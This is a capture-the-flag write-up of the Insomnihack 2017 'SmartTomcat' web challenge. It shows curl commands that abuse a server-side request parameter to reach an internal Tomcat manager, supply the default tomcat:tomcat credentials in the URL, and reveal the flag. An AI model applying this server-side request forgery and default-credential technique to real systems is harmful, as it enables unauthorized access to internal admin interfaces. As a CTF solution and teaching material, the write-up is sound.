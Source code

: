 ### Web50 SmartTomcat APP

Hello everyone, I will share you my SmartTomcat Solution for the Insomnihack Teaser CTF ..

First, this is a web challenge, 50pts, should be fast !

Some time spend on thhis application, the goal is to find the good coordianates to reach the "cat" position.

btw, look at this horrible cat :

![smartcat](/public/images/smartcat.jpg)

We can enter coordinates in the top fields :

![smartcat_ss](/public/images/smartcat_ss.png)

We looked at the network console then we find this : 

```
Request URL:http://smarttomcat.teaser.insomnihack.ch/index.php
Request Method:POST
Status Code:200 OK
Remote Address:54.76.71.37:80

Form-Data:
	u=http://localhost:8080/index.jsp?x=1337&y=1337
```

We see that the actual server is going to work with an other service on port 8080.

Timeout response when you try this :

```
curl -v 'http://smarttomcat.teaser.insomnihack.ch:8080/index.jsp?x=1337&y=1337'
```

.jsp ( and challenge name ) make us think about a tomcat app.. So we tried to access the manager url :

```
$ curl -i -X POST 'http://smarttomcat.teaser.insomnihack.ch/index.php' --data-urlencode "u=http://127.0.0.1:8080/manager"                                                                                                                                  0|15:18:21

HTTP/1.1 200 OK
Date: Mon, 23 Jan 2017 14:18:24 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 195
Connection: keep-alive
Server: Apache/2.4.18 (Ubuntu)
Vary: User-Agent,Accept-Encoding

<html>
<head>
<meta http-equiv="refresh" content="0; url=http://127.0.0.1:8080/manager/html/" />
</head>
<body>
<p><a href="http://127.0.0.1:8080/manager/html/">Redirect</a></p>
</body>
</html>
```

Redirecting on /manager/html, let's try it !

```
$ curl -i -X POST 'http://smarttomcat.teaser.insomnihack.ch/index.php' --data-urlencode "u=http://127.0.0.1:8080/manager/html"                                                                                                                             0|15:19:26

HTTP/1.1 200 OK
Date: Mon, 23 Jan 2017 14:19:29 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 969
Connection: keep-alive
Server: Apache/2.4.18 (Ubuntu)
Vary: User-Agent,Accept-Encoding

<html><head><title>Apache Tomcat/7.0.68 (Ubuntu) - Error report</title><style><!--H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}HR {color : #525D76;}--></style> </head><body><h1>HTTP Status 401 - </h1><HR size="1" noshade="noshade"><p><b>type</b> Status report</p><p><b>message</b> <u></u></p><p><b>description</b> <u>This request requires HTTP authentication.</u></p><HR size="1" noshade="noshade"><h3>Apache Tomcat/7.0.68 (Ubuntu)</h3></body></html>
```

401 Response ! we need credz .. can't event control the HTTP header because the index.php is doing the request.

The goal was just to put the credz in the url like this :

```
$ curl -i -X POST 'http://smarttomcat.teaser.insomnihack.ch/index.php' --data-urlencode "u=http://tomcat:tomcat@127.0.0.1:8080/manager/html"                                                                                                               0|15:21:03

HTTP/1.1 200 OK
Date: Mon, 23 Jan 2017 14:21:10 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 91
Connection: keep-alive
Server: Apache/2.4.18 (Ubuntu)
Vary: User-Agent,Accept-Encoding

We won't give you the manager, but you can have the flag : INS{th1s_is_re4l_w0rld_pent3st}
```

The flag is  : `INS{th1s_is_re4l_w0rld_pent3st}`
